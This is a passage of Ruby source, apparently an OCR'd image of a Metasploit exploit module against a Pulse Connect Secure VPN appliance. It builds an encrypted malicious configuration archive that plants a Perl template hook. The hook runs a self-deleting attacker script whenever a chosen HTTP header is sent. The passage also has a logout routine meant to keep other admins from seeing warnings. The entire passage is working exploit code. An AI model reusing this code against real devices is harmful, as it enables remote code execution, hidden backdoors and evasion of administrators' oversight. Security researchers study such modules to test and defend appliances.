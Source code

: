       def logout
        print_status('Logging out to prevent warnings to other admins')
        res = send_request_cgi({ 'uri' => normalize_uri(target_uri.path, 'dana-admin', 'cached', 'config', 'config.cgi') })
        fail_with(Failure::UnexpectedReply, 'Logout failed') unless res&.code == 200

        logout_uri = res.body.scan(%r{/dana-na/auth/logout\.cgi\?xsauth=\w+}).first
        fail_with(Failure::UnexpectedReply, 'Logout failed') if logout_uri.nil?

        res = send_request_cgi({ 'uri' => logout_uri })
        fail_with(Failure::UnexpectedReply, 'Logout failed') unless res&.code == 302
      end

      def build_malicious_config(cmd, trigger)
        payload_script = "#{Rex::Text.rand_text_alphanumeric(rand(6..13))}.sh"
        perl = <<~PERL
          if (length $ENV{HTTP_#{trigger}}){
            chmod 0775, "/data/var/runtime/tmp/tt/#{payload_script}";
            system("env /data/var/runtime/tmp/tt/#{payload_script}");
          }
        PERL
        tarfile = StringIO.new
        Gem::Package::TarWriter.new(tarfile) do |tar|
          tar.mkdir('tmp', 509)
          tar.mkdir('tmp/tt', 509)
          tar.add_file('tmp/tt/setcookie.thtml.ttc', 511) do |tio|
            tio.write perl
          end
          tar.add_file("tmp/tt/#{payload_script}", 511) do |tio|
            tio.write "PATH=/home/bin:$PATH\n"
            tio.write "rm -- \"$0\"\n"
            tio.write cmd
          end
        end

        gzfile = StringIO.new
        gz = Zlib::GzipWriter.new(gzfile)
        gz.write(tarfile.string)
        gz.close

        encrypt_config(gzfile.string)
      end

      def encrypt_config(config_blob)
        cipher = OpenSSL::Cipher.new('DES-EDE3-CFB').encrypt
        iv = cipher.iv = cipher.random_iv
        cipher.key = ENCRYPTION_KEY

        md5 = OpenSSL::Digest.new('MD5', "#{iv}\x00#{[config_blob.length].pack('V')}")

        ciphertext = cipher.update(config_blob)
        ciphertext << cipher.final
        md5 << ciphertext

        cipher.reset
        "\x09#{iv}\x00#{[ciphertext.length].pack('V') + ciphertext + cipher.update(md5.digest) + cipher.final}"
      end
    end
